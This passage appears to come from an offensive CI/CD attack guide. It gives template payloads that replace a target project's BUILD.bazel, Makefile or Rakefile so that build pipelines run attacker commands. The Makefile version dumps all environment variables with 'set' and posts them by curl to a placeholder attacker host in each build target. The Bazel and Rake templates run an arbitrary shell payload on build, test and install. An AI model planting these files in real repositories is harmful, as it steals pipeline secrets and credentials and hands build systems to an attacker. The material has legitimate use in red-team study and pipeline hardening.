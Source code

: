 
### BUILD.bazel

> Replace the content of `BUILD.bazel` with the following payload

NOTE: `BUILD.bazel` requires escaping backslashes.\
Replace any `\` with `\\` inside your payload.

```shell
genrule(
    name = "build",
    outs = ["foo"],
    cmd = "{Escaped-Shell-Payload}",
    visibility = ["//visibility:public"],
)
```


### Makefile

> Make files are often executed by build pipelines for projects written in `C`, `C++` or `Go` (but not exclusively).\
> There are several utilities that execute `Makefile`, the most common are `GNU Make` & `Make`.\
> Replace your target  `Makefile` with the following payload

```shell
.MAIN: build
.DEFAULT_GOAL := build
.PHONY: all
all: 
	set | curl -X POST --data-binary @- {YourHostName}
build: 
	set | curl -X POST --data-binary @- {YourHostName}
compile:
    set | curl -X POST --data-binary @- {YourHostName}
default:
    set | curl -X POST --data-binary @- {YourHostName}
```


### Rakefile

> Rake files are similar to `Makefile` but for Ruby projects.\
> Replace your target `Rakefile` with the following payload


```shell
task :pre_task do
  sh "{Payload}"
end

task :build do
  sh "{Payload}"
end

task :test do
  sh "{Payload}"
end

task :install do
  sh "{Payload}"
end

task :default => [:build]
```

